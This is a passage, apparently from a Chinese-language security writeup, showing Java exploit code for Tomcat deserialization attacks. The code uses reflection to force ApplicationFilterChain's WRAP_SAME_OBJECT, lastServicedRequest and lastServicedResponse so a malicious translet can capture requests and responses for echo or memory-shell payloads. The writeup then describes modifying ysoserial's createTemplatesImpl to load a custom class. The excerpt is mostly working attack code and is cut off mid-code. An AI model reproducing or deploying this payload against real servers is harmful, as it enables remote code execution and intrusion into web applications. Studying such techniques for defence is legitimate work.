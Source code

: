 ```java
      java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
      java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (!f.getBoolean(null)) {
        f.setBoolean(null, true);
      }

      //初始化 lastServicedRequest
      c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
      f = c.getDeclaredField("lastServicedRequest");
      modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (f.get(null) == null) {
        f.set(null, new ThreadLocal());
      }

      //初始化 lastServicedResponse
      f = c.getDeclaredField("lastServicedResponse");
      modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (f.get(null) == null) {
        f.set(null, new ThreadLocal());
      }
    } catch (Exception e) {
      e.printStackTrace();
    }
  }

  @Override
  public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

  }

  @Override
  public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
      throws TransletException {

  }
}
```

接着，我们改造一下ysoserial中的Gadgets.createTemplatesImpl方法

```java
public static Object createTemplatesImpl ( final String command) throws Exception {
    return createTemplatesImpl(command, null);
}

public static Object createTemplatesImpl ( final String command, final Class c ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command, c,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

```